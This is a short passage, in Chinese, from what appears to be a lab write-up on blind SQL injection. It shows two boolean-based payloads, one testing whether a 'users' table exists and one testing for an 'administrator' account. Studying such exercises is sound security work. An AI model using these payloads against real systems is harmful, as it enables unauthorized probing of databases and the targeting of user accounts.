 ### 2.12.3. **判断是否存在users表**

这里就需要判断是否存在users的表。

```
payload：' and (select 'cs' from users limit 1) ='cs'--
```

![img](assets/%E5%9B%BE%E7%89%87%2046.png) 

### 2.12.4. **判断是否存在administrator用户**

```
payload：' and (select 'cs' from users where username='administrator')='cs'--
```

![img](assets/%E5%9B%BE%E7%89%87%2047.png) 
